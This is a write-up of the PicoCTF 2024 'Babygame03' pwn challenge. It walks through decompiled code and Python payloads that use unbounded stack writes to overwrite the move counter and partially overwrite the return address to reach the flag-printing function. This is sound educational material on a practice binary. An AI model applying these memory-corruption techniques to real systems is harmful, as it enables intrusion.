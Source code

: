 # Babygame03

![](./images/PicoCTF2024-Babygame03.png)

This challenge was a continuation of the `babygame02` challenge from last year. With some interesting additions. It was worth `400pts`, and I would rate it a `medium` level challenge compared to the other pwn challenges this year. 

The idea behind this game is that you are able to move around a map, and to finish a level you get to the bottom right of the map.

When we inspect the game with GDB, we see that the entire map is held in memory on the stack. There are also no bounds checks on the top of the map, so you can stomp on memory on the stack.

When we analyze the binary with our favorite disassembler, we can see that there are some fun extra features...
- You can use `l` to change your characters `character`. By doing this you change the representation of the player on the stack memory
- When you move away from a spot, a `.`(`0x2e`) is written to that memory location.
- You can use `p` to have the game "auto solve" the level by moving the player to the end

This version of the game has some additional features that the older challenge did not. 
- You have limited moves.
- There are obstacles that instantly end the game if you run into them.

When we look at the `main` function, I've gone ahead and renamed some variables, defined some structs etc so that it's a bit more readable.

![](./images/babygame03_main.png)

Note, I may have `x` and `y` switched, but you get the idea...

- We see that the instance of the player is kept on the stack, and it holds the number of `moves`, `x` and `y`.
- We win if our player `x` is `0x1d` and `y` is `0x59` and the `level` is not `4`.
- if we manage to get to level `5` (which should be impossible) and our `wins` are equal to `4`, then we break and can call the `win` function.

Not shown here is the `win()` function. It will only print out the flag if the argument passed is equal to `5`

```c
int32_t win(int32_t* arg1)
{
    FILE* fp = fopen("flag.txt", &data_804a091);
    if (fp == 0)
    {
        puts("Please create 'flag.txt' in this…");
        fflush(*(uint32_t*)stdout);
        exit(0);
        /* no return */
    }
    void var_4c;
    fgets(&var_4c, 0x3c, fp);
    int32_t eax_2 = *(uint32_t*)arg1;
    if (eax_2 == 5)
    {
        printf(&var_4c);
        eax_2 = fflush(*(uint32_t*)stdout);
    }
    return eax_2;
}
```

This means we can't just jump to the `win()` function.

The first thing we need to do is get more `moves` we do this by navigating to the stack location storing the moves. We stomp on that memory. And then use the auto-solve to win the level.

```python
for i in range(0,3):
    payload = 'a'*4
    payload += 'w'*3
    payload += 'a'*4
    payload += 'w'*1     # we write 0x2e to the highest byte of lives
    payload += 's'*6
    payload += 'p'       # auto solve the level

    io.sendline(payload)
    data = io.recv(1000000, timeout=1)
```

We do this until we get to level `4`. That one can't be solved by conventional ways.

Now we still modify our moves, and then we change our `character` to `0x70`, and overwrite the lowest byte of the return address on the stack. By setting this to `0x70`, we jump to the code in main that gives us the win on the level. We bypass the check for the final location and `level != 4`.

```python
payload = 'a'*4
payload += 'w'*3
payload += 'a'*4
payload += 'w'*1     #we write 0x2e to the highest byte of lives
payload += 's'*1

payload += 'a'*46
payload += 'a'
payload += 'l\x70'
payload += 'w'*1     #jump to code that skips the level 4 check
io.sendline(payload)
```

Now we are on level 5, but we can't hit the break condition. So we do the same tricks. We give ourselves more moves/lives, then change our character to `\xfe` and adjust our offsets to again overwrite the lowest byte of the return pointer on the stack.

```python
payload = 'a'*4
payload += 'w'*3
payload += 'a'*4
payload += 'w'*1     #we write 0x2e to the highest byte of lives
payload += 's'*1

payload += 'a'*46
payload += 'a'
payload += 'a'*0x10 # we did the other jump, so now we have to adjust
payload += 'l\xfe'  
payload += 'w'
io.sendline(payload)
```

This time we jump to the location in main that sets up the correct calling convention to `win()` with our level `5`, and we get the flag printed out.

All in all this was a fun little challenge. You have to understand what is going on in memory, how to get to the offsets you need to modify, and need to know how to change the execution control to have the program do what you want it to.
